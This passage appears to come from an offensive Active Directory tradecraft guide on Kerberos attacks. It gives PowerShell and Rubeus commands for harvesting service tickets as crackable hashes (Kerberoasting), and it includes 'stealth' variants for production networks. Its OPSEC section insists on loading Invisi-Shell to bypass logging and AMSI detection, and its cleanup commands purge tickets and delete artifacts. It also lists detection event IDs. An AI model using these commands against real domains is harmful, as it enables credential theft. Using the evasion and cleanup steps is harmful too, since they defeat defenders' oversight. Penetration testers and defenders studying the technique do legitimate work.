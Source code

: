**Diagram Purpose:** Highlights core Kerberos message flow and where roasting, S4U, and delegation abuses attach to the protocol.

## 🏭 **LAB vs PRODUCTION: EXECUTION PROFILES**

### 🔬 Lab
```powershell
Get-DomainUser -SPN | Export-Csv spn_users.csv -NoTypeInformation
Get-DomainSPNTicket -SPN MSSQL/* -OutputFormat Hashcat | Out-File spn_hashes.txt
Rubeus kerberoast /rc4opsec /outfile:spn_hashes.txt
```

### 🏢 Production (Stealth)
```powershell
Import-Module ActiveDirectory
# OU-scoped, minimal properties, jittered
Get-ADUser -LDAPFilter "(servicePrincipalName=*)" -SearchBase "OU=IT,DC=corp,DC=local" -Properties ServicePrincipalName -ResultSetSize 25 |
  Select-Object SamAccountName,ServicePrincipalName | Export-Csv spn_sample.csv -NoTypeInformation
Start-Sleep -Seconds (Get-Random -Minimum 3 -Maximum 6)
```

## 🛡️ **DETECTION, OPSEC & CLEANUP**

### 🚨 Detection Indicators
- Security 4768/4769 spikes (AS/TGS), unusual SPN targets, repeated S4U
- Kerberos pre-auth failures, RC4‑only patterns, service ticket bursts

### 🔒 OPSEC Best Practices
> **🔒 STEALTH REQUIREMENT**: **Invisi-Shell** must be loaded before any Kerberos enumeration in production environments to bypass logging and AMSI detection. This is non-negotiable for operational security.
- Prefer MS‑signed cmdlets first, scope with LDAP filters and small `ResultSetSize`
- Introduce jitter; avoid `setspn -Q */*` in production
- Separate DNS vs LDAP vs ADWS latency; keep transport consistent per baseline

### 🧹 Cleanup
```powershell
# Files and artifacts
Remove-Item spn_*.*, *asrep*.txt -ErrorAction SilentlyContinue

# Tickets and state
Rubeus purge 2>$null; klist purge 2>$null
```

## 🔗 **CROSS-REFERENCES & INTEGRATION**

### 📚 Related Techniques
- [23_Kerberos_Basic_Enumeration.md](./23_Kerberos_Basic_Enumeration.md)
- [24_SPN_Enumeration_Techniques.md](./24_SPN_Enumeration_Techniques.md)
- [25_Kerberos_Delegation_Abuse.md](./25_Kerberos_Delegation_Abuse.md)
- [26_Kerberos_Advanced_Attacks.md](./26_Kerberos_Advanced_Attacks.md)
